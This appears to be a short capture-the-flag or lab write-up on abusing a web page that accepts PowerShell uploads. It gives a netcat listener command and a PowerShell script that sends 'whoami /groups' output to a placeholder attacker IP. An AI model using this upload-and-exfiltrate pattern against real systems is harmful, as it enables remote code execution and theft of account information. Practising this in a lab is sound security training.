 As the web says you only can upload ps1 files, create one file to POST the output of `whoami /groups` from a PowerShell-only upload to a remote listener.

#Attacking_machine 
 1. Crerate a file called `test.ps1`.
 2. Open a netcat listener.
```
 nc -lnvp 4444
```

 3. Add the following code:

```
# capture the output into a single string
$postParams = (whoami /groups | Out-String)

# send as plain text (make sure the URI has the scheme)
Invoke-WebRequest -Uri 'http://<ATTACKING MACHINE IP>:<LISTENER PORT>' -Method POST -Body $postParams -ContentType 'text/plain'
```

4. Upload the file from the web page.

![[Screenshot_2025-10-23_06-08-42.png]]